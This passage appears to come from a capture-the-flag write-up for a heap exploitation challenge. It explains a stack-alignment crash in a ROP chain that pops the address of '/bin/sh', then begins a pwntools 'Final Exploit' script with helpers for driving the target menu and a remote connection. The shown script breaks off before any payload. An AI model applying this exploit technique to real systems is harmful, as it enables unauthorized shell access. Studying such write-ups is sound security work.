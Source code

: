 Side Note: The stack alignment error in system is caused by an instruction in the libc code that uses `XMM` registers. These registers are used to hold floating point values. There are of size `128`-bit. Because of this, they are used to perform fast copying of arguments (data) in libc code. These instructions require the stack pointer (`rsp`) to be a multiple of `16` (0x10). If that is not the case, it generates a SEGFAULT which halts the execution. The stack pointer becomes misaligned because we popped address of `/bin/sh` from the stack in the ROP chain.

### Final Exploit
```py
#!/usr/bin/env python3
from pwn import *

zooID = 0
ownerID = 0
animalID = 0

def start() -> tube:
    if args.REMOTE:
        return remote("192.168.18.50", 50789)
    else:
        return elf.process()
    
def attach_gdb() -> None:
    if args.REMOTE or args.NOGDB:
        return
    
    gdb.attach(p, '''
    heap chunks
    heap bins
    continue
               ''')
    input("ATTACHED?")

def sendchoice(choice: int):
    p.sendlineafter("choice: ", str(choice).encode())

def create_owner(name: bytes):
    sendchoice(1)

    if isinstance(name, str):
        name = name.encode()

    p.sendafter(": ", name + b'\n' if len(name) < 0x18 else name)

    global ownerID
    ownerID += 1

    return ownerID - 1

def delete_owner(_id: int):
    sendchoice(2)

    p.sendlineafter(": ", str(_id).encode())

def create_animal(name: bytes, price: int | bytes, append_newline: bool = True):
    sendchoice(3)

    if isinstance(name, str):
        name = name.encode()

    p.sendafter(": ", name + (b'\n' if append_newline else b'') if len(name) < 0x18 else name)
    p.sendlineafter(": ", str(price).encode() if isinstance(price, int) else price)

```